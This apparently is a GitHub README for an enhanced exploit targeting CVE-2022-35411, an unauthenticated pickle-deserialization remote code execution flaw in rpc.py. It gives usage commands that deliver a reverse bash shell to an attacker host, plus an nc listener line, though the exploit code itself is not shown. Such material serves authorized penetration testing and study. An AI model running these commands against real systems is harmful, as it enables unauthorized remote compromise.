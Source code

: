 # rpc.py RCE Exploit (CVE-2022-35411)

This is an updated and improved exploit for **CVE-2022-35411**, targeting vulnerable versions of [rpc.py](https://github.com/abersheeran/rpc.py) (`<= 0.6.0`).  
It allows **unauthenticated remote code execution (RCE)** via Python `pickle` deserialization.

> **Original exploit by**: [Elias Hohl](https://github.com/eliashohl)  
> **Enhanced by**: [x7331](https://github.com/x7331) for usability, portability, and automation

---

## Vulnerability Summary

The vulnerability lies in rpc.py's unsafe usage of Python's `pickle` module, allowing crafted payloads to execute arbitrary commands **without authentication**.

- **CVE ID**: [CVE-2022-35411](https://nvd.nist.gov/vuln/detail/CVE-2022-35411)
- **Affected Versions**: rpc.py `v0.4.2` – `v0.6.0`
- **Exploit Type**: Unauthenticated Remote Code Execution (RCE)

---

## Changes

- ✅ Switched to `argparse` with `--lhost`, `--lport`, `--target`, and `--dry-run` flags
- ✅ Clean, modular code structure
- ✅ Optional reverse shell delivery (TCP Bash)
- ✅ Curl test payload (safe mode)
- ✅ Logging support and cleaner output
- ✅ Proper usage guidance via `-h` / `--help`
- ✅ Metadata and inline comments for clarity

---

## Usage

### Reverse Shell Example
```bash
python3 rpc-rce-x7331.py --lhost 10.10.14.1 --lport 9001
```
### Dry Run (no shell, just curl test)
```bash
python3 rpc-rce-x7331.py --lhost 10.10.14.1 --lport 9001 --dry-run
```
### Custom Target (optional)
```bash
python3 rpc-rce-x7331.py --lhost 10.10.14.1 --lport 9001 --target http://victim.internal:65432/sayhi
```
## Requirements
- Python `3.x`
- `requests` library (install with pip install requests)
- A listener on your LHOST (e.g., `nc -lvnp 9001`)
- Vulnerable rpc.py server running

## Legal & Ethical Notice
This exploit is provided for educational and authorized testing purposes only.
Do NOT use it on systems you do not own or lack explicit permission to test.
